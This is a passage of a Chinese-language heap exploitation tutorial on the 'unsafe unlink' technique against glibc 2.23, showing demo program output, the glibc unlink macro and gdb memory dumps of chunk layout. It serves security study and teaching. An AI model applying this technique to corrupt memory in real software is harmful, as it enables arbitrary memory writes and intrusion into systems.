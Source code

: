 ```
$ gcc -g unsafe_unlink.c 
$ ./a.out 
The global chunk0_ptr is at 0x601070, pointing to 0x721010
The victim chunk we are going to corrupt is at 0x7210a0

Fake chunk fd: 0x601058
Fake chunk bk: 0x601060

Original value: AAAAAAAA
New Value: BBBBBBBB
```
这个程序展示了怎样利用 free 改写全局指针 chunk0_ptr 达到任意内存写的目的，即 unsafe unlink。该技术最常见的利用场景是我们有一个可以溢出漏洞和一个全局指针。

Ubuntu16.04 使用 libc-2.23，其中 unlink 实现的代码如下，其中有一些对前后堆块的检查，也是我们需要绕过的：
```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```

malloc\_size 设置为 0x80，可以分配 small chunk，然后定义 header_size 为 2。申请两块空间，全局指针 `chunk0_ptr` 指向 chunk0，局部指针 `chunk1_ptr` 指向 chunk1：
```
gef➤  p &chunk0_ptr 
$1 = (uint64_t **) 0x601070 <chunk0_ptr>
gef➤  x/gx &chunk0_ptr 
0x601070 <chunk0_ptr>:	0x0000000000602010
gef➤  p &chunk1_ptr 
$2 = (uint64_t **) 0x7fffffffdc60
gef➤  x/gx &chunk1_ptr 
0x7fffffffdc60:	0x00000000006020a0
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000000000
```